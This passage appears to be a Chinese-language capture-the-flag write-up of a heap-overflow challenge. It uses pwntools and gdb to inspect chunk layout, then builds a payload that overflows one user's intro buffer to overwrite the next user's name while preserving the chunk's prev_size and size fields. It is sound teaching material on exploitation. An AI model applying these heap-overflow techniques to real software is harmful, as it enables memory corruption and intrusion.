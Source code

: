 我们先添加两个用户查看堆块情况：

```python
handle_add(b"0", b"A", b"A", b"A")
handle_add(b"1", b"A", b"A", b"A")
gdb.attach(p)
```

![image-20241203153859969](https://bu.dusays.com/2024/12/03/674eb59c048ff.png)

参照源代码可以验证，0x50 大小的是 intro的堆块，0x70 大小的是 user_info 的堆块。

```c
struct user_info *info = malloc(sizeof(struct user_info));
// .......
char *intro = malloc(0x40);
```

因此，我们可以通过编辑第一个 user 中的 intro 堆，来覆盖第二个 user 的信息。

一开始尝试利用代码如下：

```python
handle_add(b"user1", b"1", b"A" * 0x20, b"A")
handle_add(b"user2", b"1", b"A" * 0x20, b"A")

payload = b"C" * 0x40  # 填充intro
payload += b"BBBB".ljust(0x40, b"\x00")  # 覆盖user2的name
# gdb.attach(p)
handle_edit(0, b"1", b"user1", payload, b"A")

gdb.attach(p)
handle_show(0, b"1")
handle_show(1, b"1")
```

发现这样直接暴力覆盖不可行，下面的堆结构被破坏了，在 edit 之后会发现只剩下两个堆了，导致接下来的查询会报 incorrect password

因此要保留下一个堆的 prevsize 和 size：

```python
handle_add(b"user1", b"1", b"A" * 0x20, b"A")
handle_add(b"user2", b"1", b"A" * 0x20, b"A")

payload = b"C" * 0x40  # 填充intro

#保留下一个堆的 prev_size 和 size
payload += p64(0) + p64(0x71)
payload += b"hackedname"
# gdb.attach(p)
handle_edit(0, b"1", b"user1", payload, b"A")

gdb.attach(p)
handle_show(0, b"1")
handle_show(1, b"1")
```
